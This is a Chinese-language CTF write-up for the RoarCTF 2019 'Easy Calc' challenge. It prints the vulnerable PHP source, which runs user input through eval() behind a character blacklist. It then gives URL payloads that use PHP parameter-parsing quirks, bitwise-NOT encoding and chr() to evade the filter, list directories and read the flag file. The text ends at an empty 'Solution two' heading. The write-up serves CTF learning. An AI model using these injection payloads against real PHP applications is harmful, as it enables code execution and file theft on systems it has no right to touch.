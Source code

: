 # \[RoarCTF 2019]Easy Calc

## \[RoarCTF 2019]Easy Calc

## 考点

* PHP7参数解析特性
* 代码执行bypass

## wp

访问calc.php看到源码

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

### 解法一

* 利用 php 的解析特性，以及补数编码或者异或编码进行绕过
* 以下payload在`?`后有个空格
* `? num=1;var_dump(scandir((~%D1%D0)))` 扫描当前目录
* `? num=1;var_dump(scandir((~%D0)))` 扫描根目录，发现 flag 文件 flagg
* `? num=1;var_dump(readfile((~%D0%99%CE%9E%98%98)))` 读取 flag
* 或者利用chr函数将非法字符串进行编码
* `? num=1;var_dump(scandir(chr(47)))`
* `? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

### 解法二

